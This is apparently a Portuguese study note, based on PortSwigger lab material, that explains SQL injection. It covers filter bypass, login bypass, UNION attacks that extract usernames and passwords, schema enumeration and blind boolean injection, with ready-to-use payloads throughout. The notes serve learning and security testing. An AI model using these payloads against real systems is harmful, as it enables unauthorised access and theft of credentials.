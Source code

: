 # SQL Injection

## SQL Injection

### Retrieving hidden data

Exemplo:

```sql
SELECT * FROM products WHERE category = 'category' AND released = 1 
```

A restrição para acessar ou não um item é restrito pelo parâmetro `released`

Um exemplo para poder acessar dados que um usuário comum não poderia:

```sql
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Um exemplo para poder acessar o dados de todas as tablas:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

### Subverting application logic

Um exemplo de um login em uma query onde a entrada não é processado antes de fazer sua busca:

```sql
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
```

É possível comentar a comparação da senha, assim é possível entrar em qualquer usuário.


```sql
SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'
```

### Retrieving data from other databases tables

Em casos onde a chamada do SQL retorna respostas com a aplicação, é possível acessar dados de outras tabelas usando a palavra chave `UNION` executando um `SELECT` adicional.

Um exemplo onde a entrada não é tratada:

```sql
SELECT name, description FROM products WHERE category = 'Gifts'
```

É possível rodar o comando para receber os usuários e a senha de na tabela de usuários:

```sql
' UNION SELECT username, password FROM users--
```

#### UNION Attacks

Para esse ataque funcionar é necessário essas duas condições:

* As buscas individuais precisam retornar o mesmo número de colunas
* o tipo de data de cada coluna precisa ser compatível entre as buscas individuais

Normalmente para a execução desse ataque é descobrir a resposta para essas perguntas:

* Quantas colunas são retornadas pela busca original?
* Quais são os tipos de dadaos para cada query original?

##### Quantas colunas são retornadas pela busca original?

###### Método 1

Esse método usa várias buscas `ORDER BY N --` incrementando o número `N`, quando o número exceder o número de colunas o banco de dados vai retornar um erro:

Exemplo de erro:

```
The ORDER BY position number 3 is out of range of the number of items in the select list.
```

###### Método 2

Esse método usa várias buscas `'UNION SELECT NULL, NULL,...--` e enquanto número de queries não for o mesmo do banco de dados um erro será retornado.

Exemplo de erro:

```
All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
```

* `Oracle`: cada `SELECT` precisa de um `FROM` para especificar uma tabela válida. Existe uma tabela built-in chamada `dual` que poder ser usada. Um exemplo de como eles seriam executados: `' UNION SELECT NULL FROM DUAL --`

* `MySQL`: os payloads no `MySQL` precisam ser seguidos por um espaço, ou também é possível usar o caractere `#` para identificar um comentário.

##### Quais são os tipos de dados para cada query original?

Sabendo qual é o tamanho da busca é possível tentar descobrir qual das buscas suporta o tipo de dado `string`

Exemplo de teste:

```sql
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

Caso o tipo de data não seja compatível vai causar um erro no banco de dados, por exemplo:

```sql
Conversion failed when converting the varchar value 'a' to data type int.
```

##### Usando o ataque UNION para acessar dados sensíveis

Supondo que a busca retorne duas colunas que conseguem guardar dados de `string`, no exemplo abaixo tentamos pegar os campos `username` e `password` da tabela `users`:

```sql
' UNION SELECT username, password FROM users-- 
```

Obs: Precisamos descobrir o nome da tabela e de seus campos

##### Retornando múltiplos valors de uma única coluna

Supondo que a coluna retorne apenas uma coluna é possível retornar múltiplos valores juntos, idealmente incluíndo um separador para que seja possível distinguir as informações.

Na `Oracle` por exemplo você pode usar o payload (os operadores `||` são concatenações, e as duas buscas vão vir separadas pelo caractere `~`):

```sql
' UNION SELECT username || '~' || password FROM users--
```

Os resultados vão permitir que você consiga ler todos os nomes e senhas, por exemplo:

```
administrator~s3cure
wiener~peter
carlos~montoya
```

Para outros bancos de dados temos o [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Examinando o banco de dados

#### Buscando a versão e o tipo de Banco de Dados

Bancos de dados diferentes vão exigir diferentes tipos de buscas para determinar o tipo e a versão do banco de dados

Por exemplo, para pegar a versão do banco de dados do MySQL poderia ser usado a injeção abaixo:

```
' UNION SELECT @@version--
```

#### Listando os conteúdos do banco de dados

A maioria dos Bancos de Dados (Exceção da Oracle) tem um conjunto de visualizações chamados de *information schema* que provê informações do banco de dados

Pegar todas as informações:

```
SELECT * FROM information_schema.tables
```

Pegar apenas a coluna dos usuários:

```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

#### Listando os conteúdos do banco de dados Oracle

Pegar todas as informações:

```
SELECT * FROM all_tables
```

Pegar apenas a coluna dos usuários:

```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

### Injeção SQL às cegas

A injeção SQL às cegas aparece quanto o banco de dados é vulnerável à SQL injection, mas a resposta HTTP não contém resultados relevantes da busca SQL ou de qualquer detalhe de erro do banco de dados.

Muitos ataques como UNION attack não são mais tão efetivos, já que se baseiam na resposta HTTP

#### Explorando Injeção SQL às cegas ativando respostas condicionais

Fazendo uma injeção SQL no site dessas duas formas:

```
…xyz' AND '1'='1
…xyz' AND '1'='2
```

Podemos ver que a primeira vai retornar um resultado positivo enquanto a segunda busca vai resultar em um resultado negativo

Usando essas comparações podemos, por exemplo, comparar se o primeiro caractere da senha do `Administrador` é maior que `m`:

```
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

E ir comparando todos caracteres do Administrador até descobrir a senha completa (Para isso existe a ferramenta Intruder do burp suite)
